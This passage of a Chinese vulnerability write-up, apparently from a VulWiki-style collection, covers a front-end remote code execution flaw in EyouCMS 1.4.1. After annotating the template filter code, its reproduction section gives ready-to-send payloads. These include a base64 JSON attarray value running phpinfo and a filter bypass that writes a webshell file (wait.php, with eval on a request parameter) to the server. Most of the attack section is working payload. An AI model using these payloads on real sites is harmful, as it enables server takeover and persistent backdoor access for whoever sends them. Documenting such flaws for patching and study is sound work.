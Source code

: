         // PHP语法检查
        if ($this->config['tpl_deny_php'] && false !== strpos($content, '<?php')) {
            if (config('app_debug')) { // 调试模式下中断模板渲染 by 小虎哥
                throw new Exception('not allow php tag', 11600);
            } else { // 运营模式下继续模板渲染 by 小虎哥
                echo(lang('not allow php tag'));
            }
        }
        return;
    }

4 Line: 将模板中php短标签转换为21 Line: 判断传入的\$content中是否包含了{php}22 Line:
使用正则表达式匹配出\$content中所有包含了"{php}任意内容{/php}"的标签23 Line:
使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给\$matchs否则将空数组赋给\$matchs24 Line: 判断\$matchs不为空25 Line: 将\$matchs使用foreach循环遍历26 Line: 将\$val中的"{/任意空白字符php}"替换为空并赋给\$valnew27 Line: 将\$valnew中的"多个或零个0-9A-Za-Z\_eval("替换为"intval("28 Line: 将\$valnew中的"开始为eval任意空白字符("替换为"intval("29 Line: 将字符串"{php}{\$valNew}{/php}"赋给\$valnew30 Line: 将\$content中的\$val替换为\$valNew

### 漏洞复现

    Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php}

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.1前台rce/media/rId26.png)

Payload生成方式:

    base64_encode(jsonstring)

eval会被替换成intval，所以我们采用base64加密写入webshell的方式php代码如下：

    file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg=="));

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

    <?php eval($_REQUEST[“w”]);?>

将php标签转换为json格式并加密：

    print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}")));

    eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=

pyload:

    attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.4.1前台rce/media/rId27.png)
